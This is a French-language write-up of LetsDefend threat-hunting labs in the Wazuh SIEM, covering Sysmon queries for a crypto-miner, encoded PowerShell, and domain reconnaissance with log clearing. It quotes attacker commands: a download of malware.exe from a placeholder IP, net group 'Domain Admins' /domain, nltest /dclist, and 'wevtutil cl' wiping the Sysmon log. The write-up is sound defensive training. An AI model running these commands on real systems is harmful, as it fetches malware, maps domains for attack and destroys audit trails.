



Trois chasses guidées par une hypothèse, menées dans le SIEM Wazuh (onglet Discover, index `wazuh-alerts-*`, requêtes en DQL), question par question. Le lab 1 reprend mes captures ; les trois labs suivent le [writeup de Yusuf Arbaç](https://yusufarbc.dev/en/writeups/threat-hunting-with-edr-writeup-letsdefend/).

Environnement du Laboratoire de Chasse aux Menaces :

- SIEM (Wazuh)
- Événements EDR (Sysmon)
- Événements CTI ([Threat Intel - LetsDefend](https://app.letsdefend.io/threath-intelligence-feed)) — labs 1 et 2
- Journaux du Moniteur Système (Zabbix) — lab 1

Période de toutes les questions : **1er août 2024 00:00 → 7 août 2024 00:00**.

## Requêtes Wazuh : l'essentiel

- Toujours fixer la **période** de la question avant de chercher.
- Recherche libre : penser à mettre les étoiles autour du mot pour qu'il soit bien pris en compte : `*miner.exe*`, `*nltest*`.
- Filtrer d'abord par **groupe de règles**, puis par champ.
- Les **réponses** se lisent dans les champs, pas dans le texte brut : ajouter les colonnes utiles (`agent.name`, `data.win.eventdata.image`…) dans Discover.

|Champ / filtre|Ce qu'il donne|
|---|---|
|`rule.groups: sysmon_event1`|Sysmon 1 : processus créés|
|`rule.groups: sysmon_event3`|Sysmon 3 : connexions réseau|
|`rule.groups: windows_application`|Journal Application (dont MsiInstaller 1033)|
|`rule.groups: zabbix`|Alertes de supervision Zabbix (CPU, mémoire…)|
|`rule.groups: firewall`|Journaux du pare-feu|
|`rule.mitre.id: T1087.001`|Alertes que Wazuh rattache à une technique ATT&CK (par identifiant)|
|`rule.mitre.technique: Remote System Discovery`|Même chose, par nom de technique|
|`data.win.system.eventID`|Event ID Windows ou Sysmon|
|`data.win.eventdata.image`|Exécutable du processus|
|`data.win.eventdata.parentImage`|Processus parent|
|`data.win.eventdata.commandLine`|Ligne de commande complète|
|`data.win.eventdata.originalFileName`|Nom interne du binaire (révèle un exécutable renommé)|
|`data.win.eventdata.hashes`|Hashes du fichier exécuté|
|`data.win.eventdata.queryName`|Sysmon 22 : nom de domaine résolu|
|`data.win.eventdata.destinationIp`|Sysmon 3 : IP contactée|
|`data.dstip`|Pare-feu : IP de destination|
|`agent.name` / `agent.ip`|Machine qui a remonté l'événement|

Côté **Threat Intel** de LetsDefend : on y cherche un indicateur (domaine, IP) pour obtenir le **groupe** qui l'utilise, puis on cherche le groupe pour obtenir ses autres **IOCs** (dont des hashes), qu'on ramène dans Wazuh.

## Lab 1 — Malware de minage

- `Hypothèse`  Un groupe d'acteurs de la menace distribue peut-être un logiciel malveillant (malware) pour effectuer du minage de cryptomonnaie sur nos systèmes. Ce logiciel malveillant pourrait utiliser secrètement les ressources de nos systèmes pour des opérations de minage de cryptomonnaie.

Point de départ : un mineur se trahit d'abord par la **charge CPU**. On part de la supervision, on remonte au processus, puis on pivote sur ses IOCs pour trouver les autres machines.

### Question 1 — La machine en surcharge CPU (Zabbix)

- Question 1 : According to System Monitor (Zabbix) logs, what is the hostname of the system that triggered a high CPU usage alert between Aug 1, 2024 00:00 - Aug 7, 2024 00:00?
- Query : `rule.groups: "zabbix" and cpu` (ou filtre `rule.groups: zabbix` et recherche `*cpu*`)
- Champs utiles : `data.host`, `data.cpu_usage`, `rule.description`.



### Question 2 — Le logiciel installé : Event ID 1033

- Question 2 : What is the name of the application installed on the high-CPU system during Aug 1-7, 2024? Answer Format: Test Tester: Winrar & 7zip Extract Software
    - Query : `rule.groups: "windows" and data.win.system.eventID:1033`
    - Event ID intéressant à checker 1033
- Variante plus précise : `rule.groups: windows_application and data.win.system.eventID: 1033`.

```text
Journaux Windows → Application → 1033 (MsiInstaller) → Windows Installer installed the product
```


- Le nom du produit est dans `data.win.eventdata.data` ; la machine dans `agent.name` : garder la ligne de la machine trouvée à la question 1.
- Voisins utiles : **1034** (produit désinstallé), **11707** (installation réussie), **11724** (désinstallation réussie).
- Seules les installations par **Windows Installer (MSI)** sont tracées : un `.exe` copié et lancé directement n'en laisse pas.



### Question 3 — Le chemin de l'exécutable de minage : Sysmon 1

- Question 3 : What is the full path of the mining executable? Answer Format: C:\\\\Temp\\\\LetsDefend\\\\Uploads\\\ ester.exe
    - Query : Penser à mettre les étoiles entre le mot pour qu'il soit bien pris en compte * MOT **
    - Event ID sysmon : 1
- Requête : filtre `rule.groups: sysmon_event1`, recherche `*miner.exe*`, colonnes `agent.name`, `data.win.eventdata.image`, `data.win.eventdata.currentDirectory`.
- Deux machines remontent : garder celle de la question 1 ; l'autre resservira aux questions 8 à 10.



### Question 4 — Le processus parent du mineur

- Question : quel processus a lancé le mineur ?
- Même requête que la question 3 ; lire `data.win.eventdata.parentImage`.
- Ici, le parent est un **binaire Windows de téléchargement** (`bitsadmin.exe`, service BITS) : le fichier a été rapatrié avec un outil du système (LOLBin, T1197).
- Lecture du parent en général :
    - `bitsadmin.exe`, `certutil.exe` : téléchargement par un outil du système ;
    - `w3wp.exe` (IIS) : l'application web a servi de porte d'entrée ;
    - `explorer.exe` : lancement par l'utilisateur (double-clic).

### Question 5 — Le domaine contacté par le mineur

- Question : avec quel domaine le mineur a-t-il communiqué ?
- Pivot sur l'exécutable : `data.win.eventdata.image: "<chemin complet trouvé à la question 3>"` (antislashs doublés dans la requête).
- Parmi les résultats, l'événement **Sysmon 22** (requête DNS) donne le domaine dans `data.win.eventdata.queryName` ; un **Sysmon 3** donnerait l'IP et le port.

### Question 6 — Le groupe derrière le domaine (CTI)

- Question : à quel groupe de menace le Threat Intel de LetsDefend rattache-t-il ce domaine ?
- Chercher le domaine dans le module Threat Intel : la fiche donne le **groupe**.

### Question 7 — Le hash partagé par le groupe (CTI)

- Question : quel hash le Threat Intel associe-t-il à ce groupe ?
- Chercher le nom du groupe dans Threat Intel : parmi ses IOCs, un **hash** (MD5 ici) devient le pivot suivant.

### Question 8 — Une autre machine porte le même hash

- Question : sur quelle autre machine (`agent_name`) ce hash apparaît-il ?
- Recherche libre `*<hash>*` sur toute la période, toutes machines ; colonne `agent.name`.
- Un même hash sur une deuxième machine = **propagation** : l'incident n'est plus limité au poste de départ.

### Question 9 — Le chemin du mineur sur cette machine

- Question : quel est le chemin complet du mineur sur la deuxième machine ?
- Même recherche ; lire `data.win.eventdata.image`.
- Même binaire, **autre nom et autre dossier** (`C:\Windows\Temp\…`) : chercher par nom de fichier aurait manqué cette machine, la recherche par hash la trouve.

### Question 10 — Le processus parent sur cette machine

- Question : quel processus a lancé le mineur sur la deuxième machine ?
- Même recherche ; lire `data.win.eventdata.parentImage`.
- Le parent est cette fois le **processus de travail IIS** (`w3wp.exe`) : un serveur web qui lance un exécutable signe une exploitation de l'application web (web shell ou faille), une autre porte d'entrée que sur la première machine.

```text
Q1 alerte CPU (Zabbix) → machine
   → Q2 1033 : logiciel installé
   → Q3 Sysmon 1 : chemin du mineur ; Q4 parent (bitsadmin)
   → Q5 Sysmon 22 : domaine contacté
   → Q6-Q7 CTI : groupe + hash
   → Q8-Q10 recherche du hash : 2e machine, autre chemin, parent w3wp (IIS)
```


## Lab 2 — PowerShell encodé

- `Hypothèse` Des attaquants exécutent peut-être des commandes malveillantes par l'option `-EncodedCommand` de PowerShell.

### Question 1 — La machine qui exécute du PowerShell encodé

- Question : quelle est l'IP (`agent_ip`) de la machine qui a lancé PowerShell avec `EncodedCommand` ?
- Filtre `rule.groups: sysmon_event1`, recherche `*powershell.exe*` ; affiner avec `data.win.eventdata.commandLine: *EncodedCommand*` (variantes : `-enc`, `-e`).
- Lire `agent.ip` et `agent.name`.

### Question 2 — La commande décodée

- Question : que donne la commande une fois décodée ?
- Copier la chaîne qui suit `-EncodedCommand` dans `data.win.eventdata.commandLine`.
- C'est du **Base64 de texte UTF-16LE** : un décodeur Base64 simple affiche des caractères séparés par des points.
- CyberChef : `From Base64` → `Decode text` (UTF-16LE).
- PowerShell :

```powershell
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('<chaîne>'))
```


- La commande décodée est un `Invoke-WebRequest -Uri "http://<IP>/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"` : téléchargement d'un exécutable depuis une IP (le serveur de l'attaquant), déposé dans `C:\Windows\Temp`.

### Question 3 — Le groupe derrière l'IP (CTI)

- Question : à quel groupe le Threat Intel rattache-t-il l'IP de téléchargement (C&C) ?
- Chercher l'IP dans le module Threat Intel.

### Question 4 — Un hash du groupe (CTI)

- Question : quel hash figure parmi les IOCs de ce groupe ?
- Chercher le nom du groupe dans Threat Intel et relever le hash.

### Question 5 — Le processus parent du fichier

- Question : quel est le chemin complet du processus parent de ce hash ?
- Filtre `rule.groups: sysmon_event1`, recherche `*<hash>*` ; lire `data.win.eventdata.parentImage`.
- Parent `explorer.exe` : le fichier a été lancé depuis la session de l'utilisateur (double-clic, raccourci).

### Question 6 — L'IP contactée par le malware

- Question : avec quelle IP le processus a-t-il communiqué ?
- Filtre `rule.groups: sysmon_event3`, recherche `*malware.exe*` ; lire `data.win.eventdata.destinationIp` (et le port).

### Question 7 — La réaction du pare-feu

- Question : quelle action le pare-feu a-t-il appliquée à cette IP ?
- Filtre `rule.groups: firewall and data.dstip: "<IP>"` ; lire l'action (`allow` / `deny`).
- Ici la connexion est **bloquée** (`deny`) : cela ne clôt pas l'affaire, le malware s'est exécuté sur le poste, seule sa communication a échoué.

```text
Q1 Sysmon 1 : powershell -EncodedCommand → Q2 décodage → URL de téléchargement
   → Q3-Q4 CTI : groupe + hash → Q5 Sysmon 1 : parent (explorer)
   → Q6 Sysmon 3 : IP contactée → Q7 pare-feu : deny
```


## Lab 3 — Reconnaissance et effacement des journaux

- `Hypothèse` Un attaquant mène peut-être une reconnaissance du poste et du domaine depuis une machine compromise, puis efface des journaux pour couvrir ses traces.
- Environnement : SIEM (Wazuh) et événements EDR (Sysmon) seulement, sans Threat Intel.

Ici, Wazuh rattache déjà ses alertes à des techniques ATT&CK : on chasse par `rule.mitre.id` (ou `rule.mitre.technique`), toujours avec `rule.groups: windows`.

### Question 1 — La machine de la découverte des comptes locaux

- Question : sur quelle machine (`agent_ip`) a eu lieu l'activité T1087.001 (Local Account Discovery) ?
- `rule.groups: windows and rule.mitre.id: T1087.001` ; lire `agent.ip`.

### Question 2 — La commande de découverte des comptes locaux

- Question : quelle commande a listé les comptes locaux ?
- Même requête ; lire `data.win.eventdata.commandLine` : `net users`.

### Question 3 — Le groupe du domaine énuméré

- Question : quel groupe du domaine a été énuméré ?
- `rule.groups: windows and rule.mitre.id: T1087.002` (Domain Account Discovery) ; la ligne de commande est du type `net group "Domain Admins" /domain` : l'attaquant cherche les comptes à privilèges.

### Question 4 — Le domaine dont on a listé les contrôleurs

- Question : pour quel domaine la liste des contrôleurs de domaine a-t-elle été demandée ?
- `rule.groups: windows and rule.mitre.id: T1018` (Remote System Discovery) ; la commande est `nltest /dclist:<domaine>`.
- Recherche directe : `data.win.eventdata.commandLine: *nltest*`

### Question 5 — L'exécutable utilisé (originalFileName)

- Question : quel exécutable Windows (champ `originalFileName`) a servi à lister les contrôleurs de domaine ?
- Même requête ; lire `data.win.eventdata.originalFileName` : **`nltestrk.exe`**.
- C'est le nom interne de `nltest.exe`, inscrit dans le binaire à la compilation. Chercher sur `originalFileName` retrouve aussi une copie **renommée** de l'outil, que la recherche sur `image` manquerait.

### Question 6 — La technique de découverte de l'IP de sortie

- Question : quel identifiant ATT&CK correspond à la découverte de l'IP de sortie vers Internet ?
- `rule.groups: windows and rule.mitre.technique: Remote System Discovery` : la même technique remonte, avec aussi un **ping scan** du réseau.
- Wazuh range cette activité sous **T1018** ; dans ATT&CK, la découverte de la connexion Internet est plutôt T1016.001 (Internet Connection Discovery).

### Question 7 — L'URL qui donne l'IP de sortie

- Question : quelle URL a servi à connaître l'IP publique de sortie ?
- Même requête ; la commande interroge **`ifconfig.me`** (par ex. `curl ifconfig.me`), qui renvoie l'IP publique vue d'Internet.

### Question 8 — Le journal effacé

- Question : quel journal a été effacé ?
- `rule.groups: windows and rule.mitre.id: T1070.001` (Clear Windows Event Logs) : le journal de **Sysmon** (`Microsoft-Windows-Sysmon/Operational`), celui qui trace les processus.
- Côté Windows, l'effacement d'un journal autre que Security laisse un **104** dans System (1102 pour Security).

### Question 9 — L'outil d'effacement

- Question : quel exécutable (champ `originalFileName`) a effacé le journal ?
- Même requête ; `originalFileName` : **`wevtutil.exe`**, commande `wevtutil cl Microsoft-Windows-Sysmon/Operational`.
- Les événements déjà envoyés à Wazuh restent consultables : c'est tout l'intérêt de centraliser.

```text
Q1-Q2 T1087.001 net users → Q3 T1087.002 net group "Domain Admins" /domain
   → Q4-Q5 T1018 nltest /dclist (nltestrk.exe) → Q6-Q7 ping scan + ifconfig.me
   → Q8-Q9 T1070.001 wevtutil cl (journal Sysmon) = Defense Evasion
```


## Ce que les labs apprennent

|Event ID|Source|Ce qu'il apporte en chasse|
|---|---|---|
|**1033** / 1034|Journaux Windows → Application (MsiInstaller)|Logiciel installé / désinstallé par Windows Installer|
|**1**|Sysmon → Operational|Processus : chemin, ligne de commande, parent, hash, `OriginalFileName`|
|**3**|Sysmon → Operational|Connexion réseau d'un processus : IP et port de destination|
|**22**|Sysmon → Operational|Requête DNS d'un processus : domaine contacté|
|**104** / 1102|Journaux Windows → System / Security|Journal effacé|

- Partir d'un **signal** (CPU, alerte, technique ATT&CK), remonter au **processus**, puis pivoter sur un **IOC** (hash, domaine, IP) pour mesurer l'étendue.
- Chercher par **hash** plutôt que par nom : le même binaire change de nom et de dossier d'une machine à l'autre.
- Le **parent** d'un processus dit souvent comment l'attaquant est entré (`bitsadmin`, `w3wp`, `explorer`).
- `OriginalFileName` démasque un binaire renommé.
- Une connexion **bloquée** par le pare-feu n'empêche pas que le code ait tourné.

Les Event IDs Sysmon et les requêtes sont repris dans la cheat sheet [Sysmon et requêtes SIEM](/cheatsheets/windows/fondamentaux/logs/sysmon/).
